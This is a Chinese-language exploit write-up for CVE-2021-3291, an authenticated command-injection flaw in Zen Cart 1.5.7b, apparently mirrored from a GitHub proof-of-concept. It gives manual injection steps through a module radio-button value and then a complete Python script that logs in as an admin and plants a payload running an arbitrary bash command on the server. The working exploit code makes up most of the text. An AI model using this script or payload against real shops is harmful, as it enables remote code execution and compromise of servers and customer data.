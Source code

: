 # Zen Cart 1.5.7b 任意命令执行（CVE-2021-3291）

Zen Cart 1.5.7b 管理员通过检查HTML radiobox元素（在模块编辑页面内），通过插入命令来执行任意命令。

* 1-）以管理员身份登录
* 2-）获取任何模块编辑页面
* 3-）检查元素任何真实的单选框
* 4-）将true更改为true','MODULE_ORDER_TOTAL_TOTAL_STATUS'); echo `id`; //
* 5-）点击更新
* 6-）触发命令再次进入编辑页面

CVE-2021-3291 https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3291

**zencart_v157b_authenticated_rce_exploit.py:**


```py
#!/usr/bin/python3
import mechanize as mc
import sys
import re
from bs4 import BeautifulSoup as bs
import base64 as B

try:
    url = sys.argv[1]
    assert url[-1] == "/"
    username = sys.argv[2]
    password = sys.argv[3]
    com = sys.argv[4]
except:
    print ("Usage: {sys.argv[0]} http://target.com/zencart/crackXXXXX/ username password command")
    exit(1)

moduls = ["payment","shipping","ordertotal","plugin_manager"] # default

br = mc.Browser()
br.set_handle_robots(False)
br.addheaders=[('User-agent','Chrome')]

br.open(url+"login.php")

br.select_form("loginForm")
br.form["admin_name"] = username
br.form["admin_pass"] = password
send = br.submit()

mod = moduls[0]
adres = url+"index.php?cmd=modules&set="+mod
kaynak = br.open(adres).read()
adr = re.findall(b'<a href=".{150}', kaynak)
adr2 = []
for i in adr:
    if b"&amp;module=" in i and b"action=remove" not in i:
        adr2.append(i.split(b'<a href="')[1].split(b'"')[0].replace(b"&amp;",b"&").decode())

for ek in adr2:
    kaynak = br.open(ek).read()
    if b"id=\"editButton\">Edit</a>" in kaynak:
        print (f"Target url: {ek}&action=edit")
        br.open(ek+"&action=edit")
        br.select_form("modules")
        form = br.forms()[0]
        liste = b""
        for con in form.controls:
            try:
                deger = br.form.find_control(name=con.name).value
                boyut = len(deger)
                if type(deger) == list:
                    if boyut == 0 or deger[0] == "True" or deger[0] == "False":
                        liste += con.name.encode() + b"=" +  f"True','F'); echo `/bin/bash -c '{com}'`; //".encode() + b"&"
                        print("Payload injected")
                    else:
                        liste +=  con.name.encode() + b"=" + deger[0].encode() + b"&"
                else:
                    liste +=  con.name.encode() + b"=" + deger.encode() + b"&"
            except:
                pass
        print (liste[:-1])
        #br.set_proxies({"http": "localhost:5555"})
        ac = br.open(ek+"&action=save", liste[:-1])
        son = br.open(ek+"&action=edit")
        son = br.open(ek+"&action=edit")
        son = br.open(ek+"&action=edit")
        break
```

from：https://github.com/MucahitSaratar/zencart_auth_rce_poc